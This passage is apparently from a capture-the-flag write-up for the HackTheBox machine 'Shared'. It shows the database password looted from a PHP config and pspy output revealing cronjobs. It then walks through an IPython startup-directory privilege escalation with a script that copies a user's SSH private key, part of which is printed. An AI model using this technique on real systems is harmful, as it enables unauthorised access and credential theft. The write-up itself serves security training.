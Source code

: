 That's a redis instance
```bash
grep 6379 /etc/services
redis           6379/tcp
```

We have already looted the MySQL database, but the password for it may be useful somewhere else
```bash
cat /var/www/checkout.shared.htb/config/db.php
<?php
define('DBHOST','localhost');
define('DBUSER','checkout');
define('DBPWD','a54$K_M4?DdT^HUk');
define('DBNAME','checkout');
?>
```

Running pspy64 there's a cronjob running /root/c.sh which does something with redis
```bash
2022/10/16 19:55:06 CMD: UID=0    PID=2137   | perl -ne s/\((\d+)\)/print " $1"/ge
2022/10/16 19:55:06 CMD: UID=0    PID=2136   | /bin/bash /root/c.sh
2022/10/16 19:55:06 CMD: UID=0    PID=2135   | /bin/bash /root/c.sh
2022/10/16 19:55:06 CMD: UID=0    PID=2138   | pidof redis-server
2022/10/16 19:55:06 CMD: UID=0    PID=2141   | /sbin/init
```

Another cronjob is killing ipython, moving to `/opt/scripts_review` and running ipython again
```bash
2022/10/16 19:56:01 CMD: UID=0    PID=2151   | /usr/sbin/CRON -f
2022/10/16 19:56:01 CMD: UID=1001 PID=2152   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
2022/10/16 19:56:01 CMD: UID=1001 PID=2153   | /usr/bin/python3 /usr/local/bin/ipython
```

There's a privesc for ipython as described here:  
[https://github.com/advisories/GHSA-pq7m-3gw7-gq5x](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x)  

So we can create a startup directory in there 
```bash
mkdir -m 777 /opt/scripts_review/profile_default 
mkdir -m 777 /opt/scripts_review/profile_default/startup
```

And drop a simple python script that will copy dan's key to tmp, as we have been able to observe that the .ssh folder exists for him
```python
#!/usr/bin/python3

with open("/home/dan_smith/.ssh/id_rsa", "r") as f:
    key = f.read()

with open("/tmp/dan_rsa", "w") as f:
    f.write(key)
```

```bash
cat dan_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvWFkzEQw9usImnZ7ZAzefm34r+54C9vbjymNl4pwxNJPaNSHbdWO
+/+OPh0/KiPg70GdaFWhgm8qEfFXLEXUbnSMkiB7JbC3fCfDCGUYmp9QiiQC0xiFeaSbvZ
FwA4NCZouzAW1W/ZXe60LaAXVAlEIbuGOVcNrVfh+XyXDFvEyre5BWNARQSarV5CGXk6ku
sjib5U7vdKXASeoPSHmWzFismokfYy8Oyupd8y1WXA4jczt9qKUgBetVUDiai1ckFBePWl
4G3yqQ2ghuHhDPBC+lCl3mMf1XJ7Jgm3sa+EuRPZFDCUiTCSxA8LsuYrWAwCtxJga31zWx
FHAVThRwfKb4Qh2l9rXGtK6G05+DXWj+OAe/Q34gCMgFG4h3mPw7tRz2plTRBQfgLcrvVD
oQtePOEc/XuVff+kQH7PU9J1c0F/hC7gbklm2bA8YTNlnCQ2Z2Z+HSzeEXD5rXtCA69F4E
u1FCodLROALNPgrAM4LgMbD3xaW5BqZWrm24uP/lAAAFiPY2n2r2Np9qAAAAB3NzaC1yc2
EAAAGBAL1hZMxEMPbrCJp2e2QM3n5t+K/ueAvb248pjZeKcMTST2jUh23Vjvv/jj4dPyoj
```